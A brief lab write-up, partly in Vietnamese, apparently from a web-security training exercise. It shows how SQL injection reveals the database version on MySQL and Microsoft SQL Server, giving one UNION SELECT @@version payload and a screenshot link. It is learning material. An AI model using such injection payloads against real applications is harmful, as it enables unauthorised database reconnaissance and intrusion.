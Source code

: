 # Lab 6: Querying the database type and version on MySQL and Microsoft

## Yêu cầu: 

Truy vấn dữ liệu phiên bản MySQL và Microsoft

## Writeup: 

**'UNION SELECT @@version,NULL#**

![image](https://user-images.githubusercontent.com/72268643/147412370-b61da5db-17af-4aa3-9fc3-0033b274b477.png)



